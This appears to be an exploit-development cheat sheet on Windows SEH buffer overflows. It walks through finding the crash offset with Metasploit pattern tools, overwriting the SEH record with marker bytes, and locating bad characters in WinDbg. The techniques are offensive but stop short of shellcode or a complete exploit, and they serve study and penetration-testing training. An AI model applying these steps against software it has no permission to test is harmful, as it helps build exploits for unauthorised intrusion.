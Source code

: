 ## SEH (Structure Exception Handling) Overflows

##### Find Offset

```bash
# Edit the payload
inputBuffer = b"<msf-pattern-create -l 1000>"

# Check Windbg
windbg> !exchain
Invalid exception stack at 33674132

# Find the offset
kali$ msf-pattern_offset -l 1000 -q 33674132
[*] Exact match at offset 188
```

##### SEH Override

```bash
# Edit payload
size = 1000
offset = 188

inputBuffer = b'\x41' * offset
inputBuffer += b'\x42' * 4 
inputBuffer += b'\x43' * (size - len(inputBuffer))

# Check Windbg
windbg> !exchain
...
0abcdefg: 42424242
Invalid exception stack at 41414141
```

##### Find Bad Characters

```bash
# Edit payload
bad chars = (...)
inputBuffer = b'\x41' * offset
inputBuffer += b'\x42' * 4 
inputBuffer += badchars
inputBuffer += b'\x43' * (size - len(inputBuffer))

# Check Windbg
windbg> g
eip=42424242 ...
windbg> dds esp L5
...
...
0abcdefg: <address_here>
windbg> db <address_here>
# check which characters are bad and repeat
```
